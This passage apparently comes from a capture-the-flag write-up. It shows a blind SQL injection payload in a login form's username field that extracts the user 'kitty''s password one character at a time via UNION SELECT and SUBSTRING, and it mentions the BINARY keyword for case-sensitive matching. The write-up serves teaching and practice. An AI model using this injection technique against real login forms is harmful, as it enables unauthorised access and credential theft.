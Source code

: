 {% code overflow="wrap" %}
```
username=' UNION SELECT null,null,null,password FROM siteusers WHERE username='kitty' and substring(password,§1§,1) = '§changeme§';-- -&password=password
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (497).png" alt=""><figcaption></figcaption></figure>

As we can see we've a problem here because function SUBSTRING() is CASE INSENSITIVE so both upper and lower case return 302 Response code.

We need to use BINARY keyword:

<figure><img src="../../.gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>

